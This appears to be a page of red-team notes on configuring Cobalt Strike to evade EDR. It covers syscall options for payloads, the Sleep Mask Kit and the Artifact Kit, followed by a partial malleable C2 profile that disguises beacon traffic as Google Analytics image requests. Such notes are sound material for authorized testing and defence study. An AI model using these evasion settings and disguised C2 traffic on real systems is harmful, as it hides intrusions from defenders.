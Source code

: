 **Shellcode**
When generating payloads, select System Call

**Sleep Mask**
Build the **Sleep Mask Kit**, specifying the syscalls option
**Note:** The **Mutator Kit** is not compatible with syscalls

**Executable/DLL**
Build the **Arsenal Kit → Artifact Kit**, specifying the syscalls option
- embedded ⇒ direct syscalls
- indirect ⇒ jmp to syscall instruction in corresponding Nt function (indirect)
- indirect_randomized ⇒ jmp to syscall instruction of a random Nt function
	- pro: if EDR checks return address after syscall, it'll think a different syscall was used
	- con: if EDR checks the syscall number *and* return address, it'll notice those don't match and flag as malicious
#### Profile Changes
**Note:** The example below assumes the following. Change this as necessary to match use case.
- data is sent via a cookie instead of in URL
- staged payloads are disabled
- HTTPS cert is in cobaltstrike/localhost.store
- password for the HTTPS cert is pass123

**Recommended Reading**
- [Cobalt Strike and Yara: Can I Have Your Signature](https://www.cobaltstrike.com/blog/cobalt-strike-and-yara-can-i-have-your-signature) → taken down but you can still find it on the [WayBack Machine](https://archive.org/web/)
- [Harnessing the Power of Cobalt Strike for EDR Evasion](https://whiteknightlabs.com/2023/05/23/unleashing-the-unseen-harnessing-the-power-of-cobalt-strike-profiles-for-edr-evasion/)

on attacker (server),
`nano /home/attacker/cobaltstrike/c2-profiles/custom/custom.profile`
```
set tasks_max_size "2097152";
set host_stage "false";
set sleeptime "10000";

http-get {
        set uri "/__utm.gif";
        client {
                parameter "utmac" "UA-2202604-2";
                parameter "utmcn" "1";
                parameter "utmcs" "ISO-8859-1";
                parameter "utmsr" "1280x1024";
                parameter "utmsc" "32-bit";
                parameter "utmul" "en-US";
				
                metadata {
                        netbios;
                        prepend "SESSIONID=";
                        header "Cookie";
                }
        }
		
        server {
                header "Content-Type" "image/gif";
				
                output {
                        # hexdump pixel.gif
                        # 0000000 47 49 46 38 39 61 01 00 01 00 80 00 00 00 00 00
                        # 0000010 ff ff ff 21 f9 04 01 00 00 00 00 2c 00 00 00 00
                        # 0000020 01 00 01 00 00 02 01 44 00 3b
						
                        prepend "\x01\x00\x01\x00\x00\x02\x01\x44\x00\x3b";
                        prepend "\xff\xff\xff\x21\xf9\x04\x01\x00\x00\x00\x2c\x00\x00\x00\x00";
                        prepend "\x47\x49\x46\x38\x39\x61\x01\x00\x01\x00\x80\x00\x00\x00\x00";
```